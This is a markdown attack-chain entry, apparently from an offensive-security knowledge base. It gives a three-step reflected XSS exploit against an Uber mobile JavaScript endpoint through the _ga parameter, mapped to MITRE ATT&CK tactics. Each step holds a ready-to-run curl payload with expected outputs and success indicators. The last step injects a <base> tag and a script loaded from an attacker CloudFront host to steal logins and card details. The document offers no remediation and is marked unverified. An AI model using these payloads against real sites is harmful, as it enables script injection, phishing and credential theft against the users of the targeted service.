

---
id: ac-uber-xss-chain-001
name: Reflected XSS in Uber Mobile JS Endpoint with CSP Misconfiguration for Arbitrary Code Execution
type: attack_chain
description: A multi-stage attack exploiting a reflected XSS vulnerability in Uber's mobile JavaScript endpoint via the _ga parameter, combined with CSP misconfigurations to enable arbitrary JavaScript execution and credential theft under SSL protection.
verified: false
submitted: false
step_count: 3
created_at: 2023-10-01T00:00:00Z
updated_at: 2023-10-01T00:00:00Z
procedures: [[procedures/Inject-XSS-Payload-via-GA-Parameter]], [[procedures/Verify-Payload-Reflection-and-Execution]], [[procedures/Leverage-CSP-Misconfiguration-for-Enhanced-Exploitation]]
techniques: [[Exploit Public-Facing Application]], [[JavaScript]]
tactics: [[Initial Access]], [[Execution]], [[Collection]]
tags: xss, reflected-xss, csp-misconfiguration, javascript-injection, credential-theft
platforms: Web
tools: []
---

# Reflected XSS in Uber Mobile JS Endpoint with CSP Misconfiguration for Arbitrary Code Execution

Multi-stage attack chain demonstrating a complete attack workflow exploiting reflected XSS in Uber's mobile app JavaScript resource, allowing arbitrary code execution without triggering browser XSS auditors, and leveraging CSP weaknesses for enhanced payload delivery and resource redirection.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[commands/curl-inject-xss-payload]]

### Target Environment

- Web platform
- Access to https://m.uber.com/0-dfffb25d2cf6ceeb0a27.js endpoint
- No specific ports required (HTTPS/443)
- Network access to Uber's domain

### Initial Access Requirements

- No credentials needed
- Public internet access
- For enhanced exploitation: AWS account to host malicious scripts on CloudFront

## Detailed Attack Procedures

### Step 1: Initial Access
procedure: [[procedures/Inject-XSS-Payload-via-GA-Parameter]]

**Objective**: Craft and send a malicious _ga query parameter to the Uber JS endpoint to inject an XSS payload that closes the JavaScript string context.

**Instructions**: Use [[commands/curl-inject-xss-payload]] to send a GET request with the payload:

```bash
curl -s "https://m.uber.com/0-dfffb25d2cf6ceeb0a27.js?_ga=asdf%22%7D%7D%20%3C/script%3E%3Cscript%3Ealert(1)%3C/script%3E"
```

**Expected Output**: The response contains the unescaped payload reflected in the JavaScript, such as the string closure and injected script tag.

**Success Indicators**:
- Payload appears unmodified in the response body
- No errors or redirections occur

### Step 2: Execution
procedure: [[procedures/Verify-Payload-Reflection-and-Execution]]

**Objective**: Load the endpoint in a browser or tool to confirm the payload executes JavaScript, such as popping an alert, without triggering XSS auditors due to SSL protection.

**Instructions**: Open the crafted URL in a browser or use [[commands/curl-inject-xss-payload]] to fetch and inspect the response:

```bash
curl -s "https://m.uber.com/0-dfffb25d2cf6ceeb0a27.js?_ga=asdf%22%7D%7D%20%3C/script%3E%3Cscript%3Ealert(1)%3C/script%3E" | grep -i "alert(1)"
```

In a browser, navigate to the URL and observe the alert(1) execution.

**Expected Output**: JavaScript alert box appears, or grep confirms the injected script in the response.

**Success Indicators**:
- Arbitrary JavaScript executes in the browser context
- No browser XSS auditor blocks the payload

### Step 3: Collection
procedure: [[procedures/Leverage-CSP-Misconfiguration-for-Enhanced-Exploitation]]

**Objective**: Host malicious scripts on an attacker-controlled CloudFront distribution and inject <base> tags to redirect resources, enabling credential theft or phishing.

**Instructions**: First, set up a CloudFront distribution with your malicious script (e.g., a phishing form stealing credentials). Then, modify the payload to include a <base> tag and script src pointing to your domain:

```bash
curl -s "https://m.uber.com/0-dfffb25d2cf6ceeb0a27.js?_ga=asdf%22%7D%7D%20%3Cbase%20href=%22https://attacker.cloudfront.net/%22%3E%3Cscript%20src=%22malicious.js%22%3E%3C/script%3E"
```

Load in browser to execute the redirected script.

**Expected Output**: Malicious script loads from attacker domain, potentially capturing user inputs like login credentials or credit card details.

**Success Indicators**:
- Resources resolve to attacker-controlled domain
- Malicious script executes, exfiltrating data

## Attack Chain Summary

### Key Achievements

1. Successful injection and reflection of XSS payload in SSL-protected JS endpoint
2. Arbitrary JavaScript execution bypassing browser protections
3. Enhanced exploitation via CSP wildcard allowing malicious script hosting and base URL manipulation for data theft

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
